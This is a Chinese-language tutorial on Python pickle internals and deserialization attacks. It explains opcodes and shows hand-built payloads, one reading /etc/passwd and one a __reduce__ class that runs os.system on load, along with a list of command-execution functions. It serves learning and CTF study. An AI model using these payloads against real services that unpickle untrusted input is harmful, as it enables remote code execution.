


# Python 反序列化的学习与利用

## 基础知识

### pickle模块

在python中我们主要是使用`pickle`这个库来实现序列化与反序列的过程，python中`几乎所有的数据类型`（列表，字典，集合，类等）都可以用pickle来序列化

这里先引入我们所需要的对象

```python
import pickle

class People(object):
    def __init__(self, name = "a4tur0r@"):
        self.name = name

    def __str__(self):
        return "Hello! %s" % (self.name)
```

在pickle模块下提供了四种方法

#### 1. pickle.dump(obj, file, protocol=None, *, fix_imports=True)

将对象 obj 封存以后的对象写入已打开的`文件对象`中。可供选择的协议参数是一个整数，指定pickler使用的`协议版本`，支持的协议是0到HIGHEST_PROTOCOL。如果未指定，则默认为`DEFAULT_PROTOCOL`。如果指定为负数，则选择HIGHEST_PROTOCOL

```python
with open("file.pickle", "wb") as f:
    pickle.dump(b, f, pickle.HIGHEST_PROTOCOL)
```

#### 2. pickle.dumps(obj，protocol = None，*，fix_imports = True)

将对象的pickled表示作为bytes对象返回，而不是将其写入文件

```python
a = People()
pickle.dumps(a)

# output
# b'\x80\x03c__main__\nPeople\nq\x00)\x81q\x01}q\x02X\x04\x00\x00\x00nameq\x03X\x08\x00\x00\x00a4tur0r@q\x04sb.'
```

#### 3. pickle.load(file，*，fix_imports = True，encoding ="ASCII"，errors ="strict")

从打开的文件对象 文件中读取pickle对象表示，并返回其中指定的重构对象层次结构

```python
b = pickle.load("file.pickle")
print(b)

# output
# Hello! a4tur0r@
```

#### 4. pickle.loads(bytes_object，*，fix_imports = True，encoding ="ASCII"，errors ="strict")

从bytes对象读取pickle对象层次结构并返回其中指定的重构对象层次结构

```python
b = pickle.loads()
print(b)
```

在不同的版本中pickle序列化有不同的协议

> - v0 版协议是原始的“人类可读”协议，并且向后兼容早期版本的 Python。
> - v1 版协议是较早的二进制格式，它也与早期版本的 Python 兼容。
> - v2 版协议是在 Python 2.3 中引入的。它为存储 new-style class 提供了更高效的机制。欲了解有关第 2 版协议带来的改进，请参阅 PEP 307。
> - v3 版协议是在 Python 3.0 中引入的。 它显式地支持 bytes 字节对象，不能使用 Python 2.x 解封。这是 Python 3.0-3.7 的默认协议。
> - v4 版协议添加于 Python 3.4。它支持存储非常大的对象，能存储更多种类的对象，还包括一些针对数据格式的优化。它是Python 3.8使用的默认协议。有关第 4 版协议带来改进的信息，请参阅 PEP 3154。
> - 第 5 版协议是在 Python 3.8 中加入的。 它增加了对带外数据的支持，并可加速带内数据处理。 请参阅 PEP 574 了解第 5 版协议所带来的改进的详情。

这里贴出0-4版协议的结果

```text
# v-0
b'ccopy_reg\n_reconstructor\np0\n(c__main__\nPeople\np1\nc__builtin__\nobject\np2\nNtp3\nRp4\n(dp5\nVname\np6\nVa4tur0r@\np7\nsb.'

# v-1
b'ccopy_reg\n_reconstructor\nq\x00(c__main__\nPeople\nq\x01c__builtin__\nobject\nq\x02Ntq\x03Rq\x04}q\x05X\x04\x00\x00\x00nameq\x06X\x08\x00\x00\x00a4tur0r@q\x07sb.'

#v-2
b'\x80\x02c__main__\nPeople\nq\x00)\x81q\x01}q\x02X\x04\x00\x00\x00nameq\x03X\x08\x00\x00\x00a4tur0r@q\x04sb.'

#v-3
b'\x80\x03c__main__\nPeople\nq\x00)\x81q\x01}q\x02X\x04\x00\x00\x00nameq\x03X\x08\x00\x00\x00a4tur0r@q\x04sb.'

#v-4
b'\x80\x04\x950\x00\x00\x00\x00\x00\x00\x00\x8c\x08__main__\x94\x8c\x06People\x94\x93\x94)\x81\x94}\x94\x8c\x04name\x94\x8c\x08a4tur0r@\x94sb.'
```

可以看出版本越高结构越为抽象，而我们一般手写的话是使用`v-0`版本的进行书写，python会根据格式自动选择反序列化的方式

### PVM虚拟机

> <https://media.blackhat.com/bh-us-11/Slaviero/BH_US_11_Slaviero_Sour_Pickles_Slides.pdf>

pickle 是一种栈语言，有不同的编写方式，基于一个轻量的`PVM`（Pickle Virtual Machine）

#### 组成

PVM 由三个部分组成，`引擎`（或者叫指令分析器），`栈区`、还有一个`Memo`，分别用来处理、储存以及标记数据

1. 指令处理器
从流中读取`opcode`和`参数`，并对其进行解释处理。重复这个动作，直到遇到`.`这个结束符后停止，最终留在栈顶的值将被作为反序列化对象返回
2. stack
由 Python 的 list 实现，被用来临时存储数据、参数以及对象
3. memo
由 Python 的 dict 实现，为 PVM 的整个生命周期提供存储

#### 指令格式

对于指令，我们有以下的书写规范

- 操作码是单字节的
- 带参数的指令用换行符定界

#### opcode

这里贴上`1FONLY`师傅总结的opcode

```text
S : 后面跟的是字符串
( ：作为命令执行到哪里的一个标记
t ：将从 t 到标记的全部元素组合成一个元祖，然后放入栈中
c ：定义模块名和类名（模块名和类名之间使用回车分隔）
R ：从栈中取出可调用函数以及元祖形式的参数来执行，并把结果放回栈中
. ：点号是结束符
```

```text
c：引入模块和对象，模块名和对象名以换行符分割。（find_class校验就在这一步，也就是说，只要c这个OPCODE的参数没有被find_class限制，其他地方获取的对象就不会被沙盒影响了）
(：压入一个标志到栈中，表示元组的开始位置
0：弹出栈项的元素并丢弃
t：从栈顶开始，找到最上面的一个(，并将(到t中间的内容全部弹出，组成一个元组，再把这个元组压入栈中
R：从栈顶弹出一个可执行对象和一个元组，元组作为函数的参数列表执行，并将返回值压入栈上
p：将栈顶的元素存储到memo（标签区）中，p后面跟一个数字，就是表示这个元素在memo中的索引
g：把memo的第n个位置的元素复制到栈顶
V、S：向栈顶压入一个（unicode）字符串
s：从栈顶弹出三个元素，一个字典，一个键名字，一个键值，把键名：键值添加进字典，然后把字典压入栈顶
```

> 详细内容可以去查看pickle.py

### 操作过程

#### 序列化

1. 从对象中提取所有属性（\_\_dict__），并将属性转为键值对
2. 写入对象类名
3. 写入第一步生成的键值对

#### 反序列化

这里重点说一下反序列化的过程，这里我们举pdf中给出的例子(这里的例子只能用于**python2**)

```text
c__builtin__
file
(S'/etc/passwd'
tR.
```

先用python自带的`pickletool`做一下分解

```text
 0: c    GLOBAL     '__builtin__ file'
18: (    MARK
19: S    STRING     '/etc/passwd'
34: t    TUPLE      (MARK at 18)
35: R    REDUCE
36: .    STOP
```

这里逐步解释下每个指令的含义

1. 首先`c`操作码代表引入模块和对象`__builtin__.file`

2. 然后`(`操作码代表压入一个标志到栈中，表示`元组的开始位置`

3. 接着`S`操作码代表向栈顶插入一个`字符串`，这里为'/etc/passwd'

4. `t`操作码代表从栈顶开始，找到最上面的MARK也就是(，并将(到t中间的内容`全部弹出`，组成一个`元组`，再把这个元组压入栈中

5. 最后`R`操作码代表从栈顶弹出两个元素，一个可执行对象和一个元组，元组作为函数的参数列表执行，并`将返回值压入栈`上。这里执行的是__builtin__.file('/etc/passwd')

6. `.`代表程序结束

总结以下

1. 获取 pickle 输入流
2. 根据opcode及内容获取属性的内容
3. 返回属性内容
4. 根据保存的类名返回一个新的对象
5. 组合新的对象以及属性

## 利用反序列化漏洞

在pickle模块的介绍上，python的网站有着这样的警告



### 1. \_\_reduce__

>IMPORTANT: **__reduce__的opcode为`R`**



在pickle反序列化的过程中，class的__reduce__方法会被自动调用，且

- 取当前栈的栈顶记为args，然后把它弹掉
- 取当前栈的栈顶记为f，然后把它弹掉
- 以`args`为参数，执行函数`f`，把结果压进当前栈

我们可以利用`__reduce__`构造恶意字符串，当这个字符串被反序列化的时候，__reduce__会`被执行`

> pickle.loads是会解决import问题，对于未引入的module会自动尝试import。那么也就是说整个python标准库的代码执行、命令执行函数我们都可以使用

这里给出Bendawang师傅总结的可利用的函数

```text
eval, execfile, compile, open, file, map, input,
os.system, os.popen, os.popen2, os.popen3, os.popen4, os.open, os.pipe,
os.listdir, os.access,
os.execl, os.execle, os.execlp, os.execlpe, os.execv,
os.execve, os.execvp, os.execvpe, os.spawnl, os.spawnle, os.spawnlp, os.spawnlpe,
os.spawnv, os.spawnve, os.spawnvp, os.spawnvpe,
pickle.load, pickle.loads,cPickle.load,cPickle.loads,
subprocess.call,subprocess.check_call,subprocess.check_output,subprocess.Popen,
commands.getstatusoutput,commands.getoutput,commands.getstatus,
glob.glob,
linecache.getline,
shutil.copyfileobj,shutil.copyfile,shutil.copy,shutil.copy2,shutil.move,shutil.make_archive,
dircache.listdir,dircache.opendir,
io.open,
popen2.popen2,popen2.popen3,popen2.popen4,
timeit.timeit,timeit.repeat,
sys.call_tracing,
code.interact,code.compile_command,codeop.compile_command,
pty.spawn,
posixfile.open,posixfile.fileopen,
platform.popen
```

#### 示例

```python
import pickle
import pickletools

class Person(object):
    def __init__(self, username, password):
        self.username = username
        self.password = password

    def __reduce__(self):
        return (__import__('os').system, ('whoami', ))

admin = Person('admin', '123456')
result = pickle.dumps(admin, 4)

print(result)
user = pickle.loads(result)
```

```text
输出:
b'\x80\x04\x95!\x00\x00\x00\x00\x00\x00\x00\x8c\x05posix\x94\x8c\x06system\x94\x93\x94\x8c\x06whoami\x94\x85\x94R\x94.'
root

pickletools:
 0: \x80 PROTO      4
 2: \x95 FRAME      27
11: \x8c SHORT_BINUNICODE 'posix'
18: \x8c SHORT_BINUNICODE 'system'
26: \x93 STACK_GLOBAL
27: \x8c SHORT_BINUNICODE 'whoami'
35: \x85 TUPLE1
36: R    REDUCE
37: .    STOP
```

#### 一些过滤

可以看到__reduce__的标志十分明显，只要对`R`及其涉及的函数进行限制即可。这里介绍几种过滤及绕过方法

1. import 白名单
2. 过滤 R

### 全局变量覆盖

> 剩下的可以查看这篇文章 <http://www.bendawang.site/2018/04/18/Python%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E7%9A%84%E8%8A%B1%E5%BC%8F%E5%88%A9%E7%94%A8/>

## 参考链接

[pickle --- Python 对象序列化](https://docs.python.org/zh-cn/3/library/pickle.html)
[smi1e -- 从balsn-ctf-pyshv学习python反序列化](https://www.smi1e.top/%E4%BB%8Ebalsn-ctf-pyshv%E5%AD%A6%E4%B9%A0python%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96/)
[anquanke -- Python pickle 反序列化实例分析](https://www.anquanke.com/post/id/188981)
[1FONLY -- 初探Python反序列化学习笔记](https://ifonlyddw.gitee.io/posts/20200308/#toc-heading-5)
[Bendawang -- Python反序列化漏洞的花式利用](http://www.bendawang.site/2018/04/18/Python%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E7%9A%84%E8%8A%B1%E5%BC%8F%E5%88%A9%E7%94%A8/)
[从零开始python反序列化攻击：pickle原理解析 & 不用reduce的RCE姿势](https://zhuanlan.zhihu.com/p/89132768)
